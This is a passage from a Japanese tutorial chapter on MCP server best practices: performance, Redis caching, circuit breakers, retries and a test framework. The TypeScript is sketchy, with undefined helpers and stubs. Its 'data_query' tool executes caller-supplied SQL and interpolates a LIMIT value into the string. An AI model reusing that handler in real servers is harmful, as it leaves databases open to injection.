

# 08 - ベストプラクティス

## 📖 概要

MCPシステムの設計、実装、運用における最適な手法と実証されたパターンについて学習します。パフォーマンス最適化、耐障害性設計、包括的テスト戦略、セキュリティベストプラクティスなど、プロダクションレベルのMCPシステム構築に必要な知識を習得します。

## 🎯 学習目標

この章を完了すると、以下のことができるようになります：

- 高性能なMCPシステムを設計・実装できる
- 耐障害性のあるアーキテクチャを構築できる
- 包括的なテスト戦略を立案・実行できる
- セキュリティベストプラクティスを適用できる
- 運用効率を最大化する監視・ログ戦略を実装できる
- スケーラブルなシステム設計を行える

## ⚡ パフォーマンス最適化

### パフォーマンス設計原則



### 高性能MCPサーバー実装

```typescript
// src/performance/high-performance-server.ts
import { Server } from '@modelcontextprotocol/sdk/server/index.js';
import { Worker } from 'worker_threads';
import cluster from 'cluster';
import { performance } from 'perf_hooks';
import Redis from 'ioredis';
import { Pool } from 'pg';

interface PerformanceConfig {
  maxConcurrentRequests: number;
  requestTimeoutMs: number;
  cacheConfig: {
    ttl: number;
    maxKeys: number;
    strategy: 'lru' | 'lfu' | 'ttl';
  };
  workerPoolSize: number;
  clusterMode: boolean;
}

export class HighPerformanceMCPServer {
  private server: Server;
  private config: PerformanceConfig;
  private redis: Redis;
  private dbPool: Pool;
  private workerPool: Worker[] = [];
  private requestQueue: RequestQueue;
  private metricsCollector: MetricsCollector;
  
  constructor(config: PerformanceConfig) {
    this.config = config;
    this.initializeComponents();
    this.setupServer();
  }
  
  private initializeComponents(): void {
    // Redis クラスターでの高速キャッシング
    this.redis = new Redis.Cluster([
      { host: 'redis-node-1', port: 6379 },
      { host: 'redis-node-2', port: 6379 },
      { host: 'redis-node-3', port: 6379 }
    ], {
      enableReadyCheck: false,
      maxRetriesPerRequest: 3,
      retryDelayOnFailover: 100,
      redisOptions: {
        password: process.env.REDIS_PASSWORD,
        connectTimeout: 60000,
        lazyConnect: true
      }
    });
    
    // 接続プールによるデータベース最適化
    this.dbPool = new Pool({
      connectionString: process.env.DATABASE_URL,
      max: 20, // 最大接続数
      min: 5,  // 最小接続数
      idleTimeoutMillis: 30000,
      connectionTimeoutMillis: 5000,
      keepAlive: true,
      keepAliveInitialDelayMillis: 10000
    });
    
    // ワーカープールによる CPU 集約的処理の最適化
    this.initializeWorkerPool();
    
    // リクエストキューによる負荷制御
    this.requestQueue = new RequestQueue(this.config.maxConcurrentRequests);
    
    // メトリクス収集
    this.metricsCollector = new MetricsCollector();
  }
  
  private initializeWorkerPool(): void {
    for (let i = 0; i < this.config.workerPoolSize; i++) {
      const worker = new Worker('./dist/workers/cpu-intensive-worker.js');
      this.workerPool.push(worker);
    }
  }
  
  private setupServer(): void {
    this.server = new Server({
      name: "high-performance-mcp-server",
      version: "1.0.0"
    }, {
      capabilities: {
        tools: {},
        resources: {}
      }
    });
    
    this.server.setRequestHandler(CallToolRequestSchema, async (request) => {
      const startTime = performance.now();
      
      try {
        // リクエスト検証と前処理
        const validatedRequest = await this.validateAndPreprocessRequest(request);
        
        // キャッシュチェック
        const cacheKey = this.generateCacheKey(validatedRequest);
        const cachedResult = await this.getCachedResult(cacheKey);
        
        if (cachedResult) {
          this.metricsCollector.recordCacheHit(request.params.name);
          return this.formatResponse(cachedResult, performance.now() - startTime);
        }
        
        // リクエストキューに追加（負荷制御）
        const result = await this.requestQueue.process(async () => {
          return await this.processRequest(validatedRequest);
        });
        
        // 結果をキャッシュ
        await this.cacheResult(cacheKey, result);
        
        this.metricsCollector.recordRequestCompletion(
          request.params.name, 
          performance.now() - startTime
        );
        
        return this.formatResponse(result, performance.now() - startTime);
        
      } catch (error) {
        this.metricsCollector.recordError(request.params.name, error);
        throw error;
      }
    });
  }
  
  private async processRequest(request: any): Promise<any> {
    const { name, arguments: args } = request.params;
    
    switch (name) {
      case 'cpu_intensive_analysis':
        return await this.processCPUIntensiveTask(args);
      
      case 'data_query':
        return await this.processDataQuery(args);
      
      case 'ml_inference':
        return await this.processMLInference(args);
      
      default:
        throw new Error(`Unknown tool: ${name}`);
    }
  }
  
  private async processCPUIntensiveTask(args: any): Promise<any> {
    // ワーカープールを使用してCPU集約的タスクを処理
    const availableWorker = await this.getAvailableWorker();
    
    return new Promise((resolve, reject) => {
      const timeout = setTimeout(() => {
        reject(new Error('Worker timeout'));
      }, this.config.requestTimeoutMs);
      
      availableWorker.postMessage({
        type: 'cpu_intensive_analysis',
        args
      });
      
      availableWorker.once('message', (result) => {
        clearTimeout(timeout);
        if (result.error) {
          reject(new Error(result.error));
        } else {
          resolve(result.data);
        }
      });
    });
  }
  
  private async processDataQuery(args: any): Promise<any> {
    const { query, parameters, options = {} } = args;
    
    // データベース接続プールを使用
    const client = await this.dbPool.connect();
    
    try {
      // クエリ最適化
      const optimizedQuery = this.optimizeQuery(query, options);
      
      // プリペアドステートメント使用
      const result = await client.query(optimizedQuery, parameters);
      
      return {
        data: result.rows,
        count: result.rowCount,
        metadata: {
          executionTime: result.duration,
          optimizations: options.optimizations
        }
      };
    } finally {
      client.release();
    }
  }
  
  private async processMLInference(args: any): Promise<any> {
    const { model, input, options = {} } = args;
    
    // モデル推論の最適化
    const optimizedInput = await this.preprocessInput(input, options);
    
    // バッチ処理の活用
    if (Array.isArray(optimizedInput) && optimizedInput.length > 1) {
      return await this.processBatchInference(model, optimizedInput, options);
    }
    
    // 単一推論
    return await this.processSingleInference(model, optimizedInput, options);
  }
  
  private async processBatchInference(model: string, inputs: any[], options: any): Promise<any> {
    // バッチサイズの最適化
    const optimalBatchSize = this.calculateOptimalBatchSize(model, inputs.length);
    const batches = this.chunkArray(inputs, optimalBatchSize);
    
    // 並列バッチ処理
    const batchPromises = batches.map(async (batch, index) => {
      const batchStartTime = performance.now();
      
      try {
        const result = await this.callMLModel(model, batch, options);
        
        this.metricsCollector.recordBatchProcessing(
          model, 
          batch.length, 
          performance.now() - batchStartTime
        );
        
        return result;
      } catch (error) {
        console.error(`Batch ${index} failed:`, error);
        throw error;
      }
    });
    
    const batchResults = await Promise.all(batchPromises);
    
    return {
      results: batchResults.flat(),
      metadata: {
        totalBatches: batches.length,
        batchSize: optimalBatchSize,
        processingStrategy: 'parallel_batch'
      }
    };
  }
  
  private calculateOptimalBatchSize(model: string, totalItems: number): number {
    const modelConfigs = {
      'large_language_model': { optimalBatch: 8, maxBatch: 16 },
      'image_classifier': { optimalBatch: 32, maxBatch: 64 },
      'text_embeddings': { optimalBatch: 128, maxBatch: 256 }
    };
    
    const config = modelConfigs[model] || { optimalBatch: 16, maxBatch: 32 };
    
    // システム負荷に基づく動的調整
    const systemLoad = this.metricsCollector.getCurrentSystemLoad();
    const adjustmentFactor = systemLoad > 0.8 ? 0.5 : 1.0;
    
    const adjustedBatchSize = Math.floor(config.optimalBatch * adjustmentFactor);
    
    return Math.min(adjustedBatchSize, Math.ceil(totalItems / 4));
  }
  
  private async getCachedResult(cacheKey: string): Promise<any> {
    try {
      const cachedData = await this.redis.get(cacheKey);
      return cachedData ? JSON.parse(cachedData) : null;
    } catch (error) {
      console.warn('Cache retrieval failed:', error);
      return null;
    }
  }
  
  private async cacheResult(cacheKey: string, result: any): Promise<void> {
    try {
      await this.redis.setex(
        cacheKey, 
        this.config.cacheConfig.ttl, 
        JSON.stringify(result)
      );
    } catch (error) {
      console.warn('Cache storage failed:', error);
    }
  }
  
  private generateCacheKey(request: any): string {
    const { name, arguments: args } = request.params;
    
    // セキュアなハッシュ生成
    const crypto = require('crypto');
    const keyData = JSON.stringify({ name, args });
    
    return `mcp:cache:${crypto.createHash('sha256').update(keyData).digest('hex')}`;
  }
  
  private async getAvailableWorker(): Promise<Worker> {
    // ラウンドロビンまたは負荷ベースの選択
    return new Promise((resolve) => {
      const checkWorkers = () => {
        for (const worker of this.workerPool) {
          if (!worker.listenerCount('message')) {
            resolve(worker);
            return;
          }
        }
        // 全ワーカーがビジーの場合、少し待って再試行
        setTimeout(checkWorkers, 10);
      };
      checkWorkers();
    });
  }
  
  private optimizeQuery(query: string, options: any): string {
    // クエリ最適化ロジック
    let optimizedQuery = query;
    
    // インデックスヒントの追加
    if (options.useIndex) {
      optimizedQuery = this.addIndexHints(optimizedQuery, options.useIndex);
    }
    
    // LIMIT句の最適化
    if (options.maxRows && !query.includes('LIMIT')) {
      optimizedQuery += ` LIMIT ${options.maxRows}`;
    }
    
    return optimizedQuery;
  }
  
  private chunkArray<T>(array: T[], size: number): T[][] {
    const chunks: T[][] = [];
    for (let i = 0; i < array.length; i += size) {
      chunks.push(array.slice(i, i + size));
    }
    return chunks;
  }
  
  // クラスターモードでの起動
  public static startCluster(config: PerformanceConfig): void {
    if (config.clusterMode && cluster.isMaster) {
      const numCPUs = require('os').cpus().length;
      
      console.log(`Starting ${numCPUs} worker processes...`);
      
      for (let i = 0; i < numCPUs; i++) {
        cluster.fork();
      }
      
      cluster.on('exit', (worker) => {
        console.log(`Worker ${worker.process.pid} died. Restarting...`);
        cluster.fork();
      });
    } else {
      const server = new HighPerformanceMCPServer(config);
      server.start();
    }
  }
  
  public async start(): Promise<void> {
    console.log('Starting High-Performance MCP Server...');
    
    // ヘルスチェックの設定
    this.setupHealthChecks();
    
    // グレースフルシャットダウンの設定
    this.setupGracefulShutdown();
    
    console.log('High-Performance MCP Server started successfully');
  }
  
  private setupHealthChecks(): void {
    setInterval(async () => {
      const health = await this.checkSystemHealth();
      if (!health.healthy) {
        console.warn('System health check failed:', health.issues);
      }
    }, 30000); // 30秒間隔
  }
  
  private async checkSystemHealth(): Promise<{ healthy: boolean; issues: string[] }> {
    const issues: string[] = [];
    
    // Redis接続チェック
    try {
      await this.redis.ping();
    } catch (error) {
      issues.push('Redis connection failed');
    }
    
    // データベース接続チェック
    try {
      const client = await this.dbPool.connect();
      await client.query('SELECT 1');
      client.release();
    } catch (error) {
      issues.push('Database connection failed');
    }
    
    // メモリ使用量チェック
    const memUsage = process.memoryUsage();
    if (memUsage.heapUsed / memUsage.heapTotal > 0.9) {
      issues.push('High memory usage detected');
    }
    
    return {
      healthy: issues.length === 0,
      issues
    };
  }
  
  private setupGracefulShutdown(): void {
    const gracefulShutdown = async (signal: string) => {
      console.log(`Received ${signal}, starting graceful shutdown...`);
      
      // 新規リクエストの受付停止
      this.requestQueue.stop();
      
      // 既存リクエストの完了を待機
      await this.requestQueue.drain();
      
      // リソースのクリーンアップ
      await this.cleanup();
      
      console.log('Graceful shutdown completed');
      process.exit(0);
    };
    
    process.on('SIGTERM', () => gracefulShutdown('SIGTERM'));
    process.on('SIGINT', () => gracefulShutdown('SIGINT'));
  }
  
  private async cleanup(): Promise<void> {
    // ワーカープールの終了
    await Promise.all(this.workerPool.map(worker => 
      new Promise<void>((resolve) => {
        worker.terminate().then(() => resolve());
      })
    ));
    
    // Redis接続の終了
    await this.redis.disconnect();
    
    // データベースプールの終了
    await this.dbPool.end();
  }
}

// リクエストキューの実装
class RequestQueue {
  private concurrentRequests = 0;
  private maxConcurrentRequests: number;
  private queue: Array<{ fn: () => Promise<any>; resolve: (value: any) => void; reject: (error: any) => void }> = [];
  private stopped = false;
  
  constructor(maxConcurrentRequests: number) {
    this.maxConcurrentRequests = maxConcurrentRequests;
  }
  
  async process<T>(fn: () => Promise<T>): Promise<T> {
    if (this.stopped) {
      throw new Error('Request queue is stopped');
    }
    
    return new Promise((resolve, reject) => {
      if (this.concurrentRequests < this.maxConcurrentRequests) {
        this.executeRequest(fn, resolve, reject);
      } else {
        this.queue.push({ fn, resolve, reject });
      }
    });
  }
  
  private async executeRequest<T>(
    fn: () => Promise<T>, 
    resolve: (value: T) => void, 
    reject: (error: any) => void
  ): Promise<void> {
    this.concurrentRequests++;
    
    try {
      const result = await fn();
      resolve(result);
    } catch (error) {
      reject(error);
    } finally {
      this.concurrentRequests--;
      this.processQueue();
    }
  }
  
  private processQueue(): void {
    if (this.queue.length > 0 && this.concurrentRequests < this.maxConcurrentRequests) {
      const { fn, resolve, reject } = this.queue.shift()!;
      this.executeRequest(fn, resolve, reject);
    }
  }
  
  stop(): void {
    this.stopped = true;
  }
  
  async drain(): Promise<void> {
    while (this.concurrentRequests > 0 || this.queue.length > 0) {
      await new Promise(resolve => setTimeout(resolve, 100));
    }
  }
}

// メトリクス収集器
class MetricsCollector {
  private metrics = new Map<string, any>();
  
  recordCacheHit(toolName: string): void {
    const key = `cache_hit_${toolName}`;
    this.metrics.set(key, (this.metrics.get(key) || 0) + 1);
  }
  
  recordRequestCompletion(toolName: string, duration: number): void {
    const key = `request_duration_${toolName}`;
    const durations = this.metrics.get(key) || [];
    durations.push(duration);
    this.metrics.set(key, durations);
  }
  
  recordError(toolName: string, error: Error): void {
    const key = `error_${toolName}`;
    this.metrics.set(key, (this.metrics.get(key) || 0) + 1);
  }
  
  recordBatchProcessing(model: string, batchSize: number, duration: number): void {
    const key = `batch_processing_${model}`;
    const data = this.metrics.get(key) || { count: 0, totalSize: 0, totalDuration: 0 };
    data.count++;
    data.totalSize += batchSize;
    data.totalDuration += duration;
    this.metrics.set(key, data);
  }
  
  getCurrentSystemLoad(): number {
    // システム負荷の計算（簡略化）
    const memUsage = process.memoryUsage();
    return memUsage.heapUsed / memUsage.heapTotal;
  }
  
  getMetrics(): any {
    return Object.fromEntries(this.metrics);
  }
}
```

### キャッシング戦略

```typescript
// src/performance/caching-strategies.ts
interface CacheStrategy {
  get(key: string): Promise<any>;
  set(key: string, value: any, ttl?: number): Promise<void>;
  invalidate(pattern: string): Promise<void>;
  clear(): Promise<void>;
}

export class MultiLayerCache implements CacheStrategy {
  private l1Cache: Map<string, { value: any; expiry: number }> = new Map();
  private redis: Redis;
  private l1MaxSize: number;
  private defaultTTL: number;
  
  constructor(redisConfig: any, l1MaxSize = 1000, defaultTTL = 300) {
    this.redis = new Redis(redisConfig);
    this.l1MaxSize = l1MaxSize;
    this.defaultTTL = defaultTTL;
    
    // L1キャッシュのLRU実装
    this.setupL1Eviction();
  }
  
  async get(key: string): Promise<any> {
    // L1キャッシュから確認
    const l1Result = this.l1Cache.get(key);
    if (l1Result && l1Result.expiry > Date.now()) {
      return l1Result.value;
    }
    
    // L1に存在しない場合、Redisから取得
    const redisResult = await this.redis.get(key);
    if (redisResult) {
      const value = JSON.parse(redisResult);
      
      // L1キャッシュに保存
      this.setL1Cache(key, value);
      
      return value;
    }
    
    return null;
  }
  
  async set(key: string, value: any, ttl = this.defaultTTL): Promise<void> {
    // L1キャッシュに保存
    this.setL1Cache(key, value, ttl);
    
    // Redisに保存
    await this.redis.setex(key, ttl, JSON.stringify(value));
  }
  
  private setL1Cache(key: string, value: any, ttl = this.defaultTTL): void {
    // サイズ制限チェック
    if (this.l1Cache.size >= this.l1MaxSize) {
      this.evictOldestL1Entry();
    }
    
    this.l1Cache.set(key, {
      value,
      expiry: Date.now() + (ttl * 1000)
    });
  }
  
  private evictOldestL1Entry(): void {
    const firstKey = this.l1Cache.keys().next().value;
    if (firstKey) {
      this.l1Cache.delete(firstKey);
    }
  }
  
  private setupL1Eviction(): void {
    // 定期的にL1キャッシュの期限切れエントリを削除
    setInterval(() => {
      const now = Date.now();
      for (const [key, entry] of this.l1Cache.entries()) {
        if (entry.expiry <= now) {
          this.l1Cache.delete(key);
        }
      }
    }, 60000); // 1分間隔
  }
  
  async invalidate(pattern: string): Promise<void> {
    // L1キャッシュから削除
    for (const key of this.l1Cache.keys()) {
      if (key.includes(pattern)) {
        this.l1Cache.delete(key);
      }
    }
    
    // Redisから削除
    const keys = await this.redis.keys(`*${pattern}*`);
    if (keys.length > 0) {
      await this.redis.del(...keys);
    }
  }
  
  async clear(): Promise<void> {
    this.l1Cache.clear();
    await this.redis.flushdb();
  }
}

// 適応型キャッシング
export class AdaptiveCache extends MultiLayerCache {
  private hitRates: Map<string, { hits: number; misses: number }> = new Map();
  private hotKeys: Set<string> = new Set();
  
  async get(key: string): Promise<any> {
    const result = await super.get(key);
    
    // ヒット率の記録
    this.recordCacheAccess(key, result !== null);
    
    return result;
  }
  
  async set(key: string, value: any, ttl?: number): Promise<void> {
    // 適応型TTL調整
    const adaptiveTTL = this.calculateAdaptiveTTL(key, ttl);
    
    await super.set(key, value, adaptiveTTL);
  }
  
  private recordCacheAccess(key: string, hit: boolean): void {
    const stats = this.hitRates.get(key) || { hits: 0, misses: 0 };
    
    if (hit) {
      stats.hits++;
    } else {
      stats.misses++;
    }
    
    this.hitRates.set(key, stats);
    
    // ホットキーの更新
    this.updateHotKeys(key, stats);
  }
  
  private updateHotKeys(key: string, stats: { hits: number; misses: number }): void {
    const hitRate = stats.hits / (stats.hits + stats.misses);
    const accessCount = stats.hits + stats.misses;
    
    // ホットキーの判定（ヒット率 > 70% かつ アクセス数 > 10）
    if (hitRate > 0.7 && accessCount > 10) {
      this.hotKeys.add(key);
    } else if (hitRate < 0.3) {
      this.hotKeys.delete(key);
    }
  }
  
  private calculateAdaptiveTTL(key: string, baseTTL = this.defaultTTL): number {
    // ホットキーは長めのTTL
    if (this.hotKeys.has(key)) {
      return baseTTL * 2;
    }
    
    // 低アクセスキーは短めのTTL
    const stats = this.hitRates.get(key);
    if (stats && (stats.hits + stats.misses) < 5) {
      return Math.max(baseTTL * 0.5, 60); // 最低60秒
    }
    
    return baseTTL;
  }
  
  getCacheStatistics(): any {
    return {
      hotKeys: Array.from(this.hotKeys),
      hitRates: Object.fromEntries(this.hitRates),
      l1Size: this.l1Cache.size
    };
  }
}
```

## 🛡️ 耐障害性設計

### 回復力のあるアーキテクチャ

```typescript
// src/resilience/fault-tolerant-system.ts
import CircuitBreaker from 'opossum';
import { EventEmitter } from 'events';

interface ResilienceConfig {
  circuitBreaker: {
    timeout: number;
    errorThresholdPercentage: number;
    resetTimeout: number;
  };
  retry: {
    maxAttempts: number;
    baseDelay: number;
    maxDelay: number;
  };
  bulkhead: {
    maxConcurrentCalls: number;
  };
  healthCheck: {
    interval: number;
    timeout: number;
  };
}

export class FaultTolerantMCPSystem extends EventEmitter {
  private circuitBreakers: Map<string, CircuitBreaker> = new Map();
  private bulkheads: Map<string, Semaphore> = new Map();
  private healthCheckers: Map<string, HealthChecker> = new Map();
  private config: ResilienceConfig;
  
  constructor(config: ResilienceConfig) {
    super();
    this.config = config;
    this.setupResiliencePatterns();
  }
  
  private setupResiliencePatterns(): void {
    this.setupCircuitBreakers();
    this.setupBulkheads();
    this.setupHealthChecks();
  }
  
  private setupCircuitBreakers(): void {
    const services = ['openai', 'anthropic', 'azure', 'database', 'cache'];
    
    services.forEach(service => {
      const breaker = new CircuitBreaker(
        this.createServiceCall(service),
        {
          timeout: this.config.circuitBreaker.timeout,
          errorThresholdPercentage: this.config.circuitBreaker.errorThresholdPercentage,
          resetTimeout: this.config.circuitBreaker.resetTimeout,
          name: service
        }
      );
      
      // サーキットブレーカーイベントの監視
      breaker.on('open', () => {
        console.warn(`Circuit breaker opened for ${service}`);
        this.emit('circuitBreakerOpen', service);
      });
      
      breaker.on('halfOpen', () => {
        console.info(`Circuit breaker half-open for ${service}`);
        this.emit('circuitBreakerHalfOpen', service);
      });
      
      breaker.on('close', () => {
        console.info(`Circuit breaker closed for ${service}`);
        this.emit('circuitBreakerClose', service);
      });
      
      this.circuitBreakers.set(service, breaker);
    });
  }
  
  private setupBulkheads(): void {
    const services = ['cpu-intensive', 'io-intensive', 'ml-inference'];
    
    services.forEach(service => {
      const semaphore = new Semaphore(this.config.bulkhead.maxConcurrentCalls);
      this.bulkheads.set(service, semaphore);
    });
  }
  
  private setupHealthChecks(): void {
    const services = ['database', 'cache', 'external-apis'];
    
    services.forEach(service => {
      const healthChecker = new HealthChecker(
        service,
        this.createHealthCheckFunction(service),
        this.config.healthCheck
      );
      
      healthChecker.on('healthChanged', (status) => {
        this.emit('serviceHealthChanged', service, status);
      });
      
      this.healthCheckers.set(service, healthChecker);
      healthChecker.start();
    });
  }
  
  async executeWithResilience<T>(
    service: string,
    operation: () => Promise<T>,
    options: { 
      retryable?: boolean;
      fallback?: () => Promise<T>;
      bulkheadCategory?: string;
    } = {}
  ): Promise<T> {
    const { retryable = true, fallback, bulkheadCategory } = options;
    
    try {
      // バルクヘッドパターンの適用
      if (bulkheadCategory && this.bulkheads.has(bulkheadCategory)) {
        const semaphore = this.bulkheads.get(bulkheadCategory)!;
        await semaphore.acquire();
        
        try {
          return await this.executeWithCircuitBreaker(service, operation, retryable);
        } finally {
          semaphore.release();
        }
      } else {
        return await this.executeWithCircuitBreaker(service, operation, retryable);
      }
    } catch (error) {
      // フォールバック処理
      if (fallback) {
        console.warn(`Executing fallback for ${service}:`, error.message);
        return await fallback();
      }
      throw error;
    }
  }
  
  private async executeWithCircuitBreaker<T>(
    service: string,
    operation: () => Promise<T>,
    retryable: boolean
  ): Promise<T> {
    const circuitBreaker = this.circuitBreakers.get(service);
    
    if (circuitBreaker) {
      if (retryable) {
        return await this.executeWithRetry(() => circuitBreaker.fire(operation));
      } else {
        return await circuitBreaker.fire(operation);
      }
    } else {
      if (retryable) {
        return await this.executeWithRetry(operation);
      } else {
        return await operation();
      }
    }
  }
  
  private async executeWithRetry<T>(operation: () => Promise<T>): Promise<T> {
    let lastError: Error;
    
    for (let attempt = 1; attempt <= this.config.retry.maxAttempts; attempt++) {
      try {
        return await operation();
      } catch (error) {
        lastError = error;
        
        if (attempt === this.config.retry.maxAttempts) {
          break;
        }
        
        // エクスポネンシャルバックオフ
        const delay = Math.min(
          this.config.retry.baseDelay * Math.pow(2, attempt - 1),
          this.config.retry.maxDelay
        );
        
        console.warn(`Attempt ${attempt} failed, retrying in ${delay}ms:`, error.message);
        await this.sleep(delay);
      }
    }
    
    throw lastError;
  }
  
  private createServiceCall(service: string) {
    return async (...args: any[]) => {
      // サービス固有の実装
      switch (service) {
        case 'database':
          return this.callDatabase(...args);
        case 'cache':
          return this.callCache(...args);
        case 'openai':
          return this.callOpenAI(...args);
        default:
          throw new Error(`Unknown service: ${service}`);
      }
    };
  }
  
  private createHealthCheckFunction(service: string) {
    return async (): Promise<boolean> => {
      try {
        switch (service) {
          case 'database':
            // データベース接続テスト
            await this.callDatabase('SELECT 1');
            return true;
          case 'cache':
            // キャッシュ接続テスト
            await this.callCache('ping');
            return true;
          case 'external-apis':
            // 外部API接続テスト
            const response = await fetch('https://httpbin.org/status/200', { 
              timeout: 5000 
            });
            return response.ok;
          default:
            return true;
        }
      } catch (error) {
        return false;
      }
    };
  }
  
  private async callDatabase(...args: any[]): Promise<any> {
    // データベース呼び出しの実装
    throw new Error('Database implementation needed');
  }
  
  private async callCache(...args: any[]): Promise<any> {
    // キャッシュ呼び出しの実装
    throw new Error('Cache implementation needed');
  }
  
  private async callOpenAI(...args: any[]): Promise<any> {
    // OpenAI API呼び出しの実装
    throw new Error('OpenAI implementation needed');
  }
  
  private sleep(ms: number): Promise<void> {
    return new Promise(resolve => setTimeout(resolve, ms));
  }
  
  getSystemStatus(): any {
    return {
      circuitBreakers: Object.fromEntries(
        Array.from(this.circuitBreakers.entries()).map(([name, breaker]) => [
          name,
          {
            state: breaker.stats.state,
            requests: breaker.stats.requests,
            failures: breaker.stats.failures,
            successes: breaker.stats.successes
          }
        ])
      ),
      healthChecks: Object.fromEntries(
        Array.from(this.healthCheckers.entries()).map(([name, checker]) => [
          name,
          checker.getStatus()
        ])
      )
    };
  }
}

// セマフォ実装（バルクヘッドパターン用）
class Semaphore {
  private permits: number;
  private waitQueue: Array<() => void> = [];
  
  constructor(permits: number) {
    this.permits = permits;
  }
  
  async acquire(): Promise<void> {
    if (this.permits > 0) {
      this.permits--;
      return;
    }
    
    return new Promise<void>(resolve => {
      this.waitQueue.push(resolve);
    });
  }
  
  release(): void {
    if (this.waitQueue.length > 0) {
      const next = this.waitQueue.shift()!;
      next();
    } else {
      this.permits++;
    }
  }
}

// ヘルスチェッカー
class HealthChecker extends EventEmitter {
  private serviceName: string;
  private checkFunction: () => Promise<boolean>;
  private interval: number;
  private timeout: number;
  private isHealthy = true;
  private timer?: NodeJS.Timeout;
  
  constructor(
    serviceName: string,
    checkFunction: () => Promise<boolean>,
    config: { interval: number; timeout: number }
  ) {
    super();
    this.serviceName = serviceName;
    this.checkFunction = checkFunction;
    this.interval = config.interval;
    this.timeout = config.timeout;
  }
  
  start(): void {
    this.timer = setInterval(async () => {
      await this.performHealthCheck();
    }, this.interval);
    
    // 初回チェック
    this.performHealthCheck();
  }
  
  stop(): void {
    if (this.timer) {
      clearInterval(this.timer);
      this.timer = undefined;
    }
  }
  
  private async performHealthCheck(): Promise<void> {
    try {
      const timeoutPromise = new Promise<boolean>((_, reject) => {
        setTimeout(() => reject(new Error('Health check timeout')), this.timeout);
      });
      
      const isHealthy = await Promise.race([
        this.checkFunction(),
        timeoutPromise
      ]);
      
      if (this.isHealthy !== isHealthy) {
        this.isHealthy = isHealthy;
        this.emit('healthChanged', isHealthy);
      }
    } catch (error) {
      if (this.isHealthy) {
        this.isHealthy = false;
        this.emit('healthChanged', false);
      }
    }
  }
  
  getStatus(): { healthy: boolean; lastCheck: Date } {
    return {
      healthy: this.isHealthy,
      lastCheck: new Date()
    };
  }
}
```

## 🧪 包括的テスト戦略

### テストピラミッドの実装

```typescript
// src/testing/comprehensive-testing.ts
import { jest } from '@jest/globals';
import supertest from 'supertest';
import { performance } from 'perf_hooks';

interface TestStrategy {
  unitTests: UnitTestSuite;
  integrationTests: IntegrationTestSuite;
  e2eTests: E2ETestSuite;
  performanceTests: PerformanceTestSuite;
  securityTests: SecurityTestSuite;
}

export class ComprehensiveTestFramework {
  private testResults: Map<string, TestResult> = new Map();
  
  async runAllTests(strategy: TestStrategy): Promise<TestReport> {
    const report: TestReport = {
      startTime: new Date(),
      testSuites: {},
      overallResult: 'pending',
      metrics: {
        totalTests: 0,
        passedTests: 0,
        failedTests: 0,
        skippedTests: 0,
        coverage: 0,
        duration: 0
      }
    };
    
    try {
      // 単体テスト
      report.testSuites.unit = await this.runUnitTests(strategy.unitTests);
      
      // 統合テスト
      report.testSuites.integration = await this.runIntegrationTests(strategy.integrationTests);
      
      // E2Eテスト
      report.testSuites.e2e = await this.runE2ETests(strategy.e2eTests);
      
      // パフォーマンステスト
      report.testSuites.performance = await this.runPerformanceTests(strategy.performanceTests);
      
      // セキュリティテスト
      report.testSuites.security = await this.runSecurityTests(strategy.securityTests);
      
      // 全体結果の計算
      report.overallResult = this.calculateOverallResult(report.testSuites);
      report.metrics = this.calculateMetrics(report.testSuites);
      
    } catch (error) {
      report.overallResult = 'failed';
      report.error = error.message;
    }
    
    report.endTime = new Date();
    report.duration = report.endTime.getTime() - report.startTime.getTime();
    
    return report;
  }
  
  private async runUnitTests(suite: UnitTestSuite): Promise<TestSuiteResult> {
    console.log('Running unit tests...');
    
    const results: TestResult[] = [];
    
    // MCPサーバーのユニットテスト
    results.push(await this.testMCPServerCreation());
    results.push(await this.testToolRegistration());
    results.push(await this.testRequestHandling());
    results.push(await this.testErrorHandling());
    results.push(await this.testCaching());
    
    // ビジネスロジックのユニットテスト
    results.push(await this.testDataProcessing());
    results.push(await this.testValidation());
    results.push(await this.testUtilityFunctions());
    
    return {
      name: 'Unit Tests',
      results,
      coverage: await this.calculateCodeCoverage(),
      duration: results.reduce((sum, r) => sum + r.duration, 0)
    };
  }
  
  private async testMCPServerCreation(): Promise<TestResult> {
    const startTime = performance.now();
    
    try {
      // MCPサーバーの作成テスト
      const server = new HighPerformanceMCPServer({
        maxConcurrentRequests: 10,
        requestTimeoutMs: 5000,
        cacheConfig: { ttl: 300, maxKeys: 1000, strategy: 'lru' },
        workerPoolSize: 2,
        clusterMode: false
      });
      
      expect(server).toBeDefined();
      expect(server.constructor.name).toBe('HighPerformanceMCPServer');
      
      return {
        name: 'MCP Server Creation',
        status: 'passed',
        duration: performance.now() - startTime,
        assertions: 2
      };
    } catch (error) {
      return {
        name: 'MCP Server Creation',
        status: 'failed',
        error: error.message,
        duration: performance.now() - startTime,
        assertions: 0
      };
    }
  }
  
  private async testToolRegistration(): Promise<TestResult> {
    const startTime = performance.now();
    
    try {
      // ツール登録のテスト
      const mockTool = {
        name: 'test_tool',
        description: 'Test tool for unit testing',
        inputSchema: { type: 'object', properties: { input: { type: 'string' } } },
        handler: jest.fn().mockResolvedValue({ result: 'test_output' })
      };
      
      // ツール登録の検証
      expect(mockTool.handler).toBeDefined();
      
      // ツール実行の検証
      const result = await mockTool.handler({ input: 'test_input' });
      expect(result.result).toBe('test_output');
      
      return {
        name: 'Tool Registration',
        status: 'passed',
        duration: performance.now() - startTime,
        assertions: 2
      };
    } catch (error) {
      return {
        name: 'Tool Registration',
        status: 'failed',
        error: error.message,
        duration: performance.now() - startTime,
        assertions: 0
      };
    }
  }
  
  private async runIntegrationTests(suite: IntegrationTestSuite): Promise<TestSuiteResult> {
    console.log('Running integration tests...');
    
    const results: TestResult[] = [];
    
    // データベース統合テスト
    results.push(await this.testDatabaseIntegration());
    
    // キャッシュ統合テスト
    results.push(await this.testCacheIntegration());
    
    // 外部API統合テスト
    results.push(await this.testExternalAPIIntegration());
    
    // メッセージキュー統合テスト
    results.push(await this.testMessageQueueIntegration());
    
    return {
      name: 'Integration Tests',
      results,
      duration: results.reduce((sum, r) => sum + r.duration, 0)
    };
  }
  
  private async testDatabaseIntegration(): Promise<TestResult> {
    const startTime = performance.now();
    
    try {
      // データベース接続テスト
      const testQuery = 'SELECT version()';
      // const result = await dbPool.query(testQuery);
      
      // モックでテスト
